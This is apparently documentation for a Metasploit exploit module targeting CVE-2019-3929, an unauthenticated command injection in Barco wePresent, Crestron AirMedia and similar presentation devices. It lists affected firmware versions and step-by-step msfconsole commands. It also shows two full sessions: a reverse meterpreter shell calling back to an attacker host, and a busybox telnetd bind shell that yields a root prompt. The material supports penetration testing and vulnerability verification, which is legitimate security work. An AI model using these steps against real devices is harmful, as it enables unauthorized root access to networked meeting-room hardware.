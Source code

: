 ## Vulnerable Application

This module exploits [CVE-2019-3929](https://nvd.nist.gov/vuln/detail/CVE-2019-3929). The vulnerability affects [WePresent](https://www.barco.com/en/page/wepresent) devices, as well as many OEM devices (listed below). The vulnerability is an unauthenticated remote command injection via HTTP POST request to the /cgi-bin/file_transfer.cgi endpoint. 

The following devices are known to be affected by this issue:

* Barco wePresent WiPG-1000P <= 2.3.0.10
* Barco wePresent WiPG-1600W <= 2.4.1.19
* Crestron AM-100 <= 1.6.0.2
* Crestron AM-101 <= 2.7.0.1
* Extron ShareLink 200/250 <= 2.0.3.4
* Teq AV IT WIPS710 <= 1.1.0.7
* InFocus LiteShow3 <= 1.0.16
* InFocus LiteShow4 <= 2.0.0.7
* Optoma WPS-Pro <= 1.0.0.5
* Blackbox HD WPS <= 1.0.0.5
* SHARP PN-L703WA <= 1.4.2.3

## Verification Steps

  1. Acquire one of the vulnerable devices.
  2. Start msfconsole
  3. Do: `use exploit/linux/http/wepresent_cmd_injection`
  4. Do: `set RHOSTS <device ip>`
  5. Do: `check`
  6. The module should indicate if the target is vulnerable or not.
  7. Do: `set LHOST <ip>`
  8. Do: run
  9. A meterpreter session should be started

## Scenarios

### Tested against Crestron AM-100 1.6.0.2 

#### Meterpreter

```
msf > use exploit/linux/http/wepresent_cmd_injection 
msf exploit(linux/http/wepresent_cmd_injection) > set RHOSTS 10.12.70.246
RHOSTS => 10.12.70.246
msf exploit(linux/http/wepresent_cmd_injection) > set LHOST 10.12.70.238
LHOST => 10.12.70.238
msf exploit(linux/http/wepresent_cmd_injection) > check
[+] 10.12.70.246:443 - The target is vulnerable.
msf exploit(linux/http/wepresent_cmd_injection) > run

[*] Started reverse TCP handler on 10.12.70.238:4444 
[*] Command Stager progress -   9.95% done (127/1276 bytes)
[*] Command Stager progress -  19.98% done (255/1276 bytes)
[*] Command Stager progress -  29.94% done (382/1276 bytes)
[*] Command Stager progress -  39.97% done (510/1276 bytes)
[*] Command Stager progress -  50.00% done (638/1276 bytes)
[*] Command Stager progress -  59.95% done (765/1276 bytes)
[*] Command Stager progress -  69.75% done (890/1276 bytes)
[*] Command Stager progress -  79.62% done (1016/1276 bytes)
[*] Command Stager progress -  89.50% done (1142/1276 bytes)
[*] Sending stage (904600 bytes) to 10.12.70.246
[*] Command Stager progress - 100.08% done (1277/1276 bytes)
[*] Command Stager progress - 101.33% done (1293/1276 bytes)
[*] Meterpreter session 1 opened (10.12.70.238:4444 -> 10.12.70.246:40805) at 2020-01-09 05:53:34 -0500

meterpreter > shell
Process 31774 created.
Channel 1 created.
uname -a
Linux Crestron.AirMedia-1.1.wm8750 2.6.32.9-default #30 Wed Jul 12 13:56:45 CST 2017 armv6l GNU/Linux
```

#### Busybox/Telnetd Bind Shell

```
msf > use exploit/linux/http/wepresent_cmd_injection 
msf exploit(linux/http/wepresent_cmd_injection) > set target 0
target => 0
msf exploit(linux/http/wepresent_cmd_injection) > set payload cmd/unix/bind_busybox_telnetd 
payload => cmd/unix/bind_busybox_telnetd
msf exploit(linux/http/wepresent_cmd_injection) > set RHOSTS 10.12.70.246
RHOSTS => 10.12.70.246
msf exploit(linux/http/wepresent_cmd_injection) > set LHOST 10.12.70.238
LHOST => 10.12.70.238
msf exploit(linux/http/wepresent_cmd_injection) > check
[+] 10.12.70.246:443 - The target is vulnerable.
msf exploit(linux/http/wepresent_cmd_injection) > run

[*] Started bind TCP handler against 10.12.70.246:4444
[*] Command shell session 1 opened (10.12.70.238:41457 -> 10.12.70.246:4444) at 2020-01-09 05:56:36 -0500

whoami
whoami
root
~/boa/cgi-bin # uname -a
uname -a
Linux Crestron.AirMedia-1.1.wm8750 2.6.32.9-default #30 Wed Jul 12 13:56:45 CST 2017 armv6l GNU/Linux
~/boa/cgi-bin # 
```

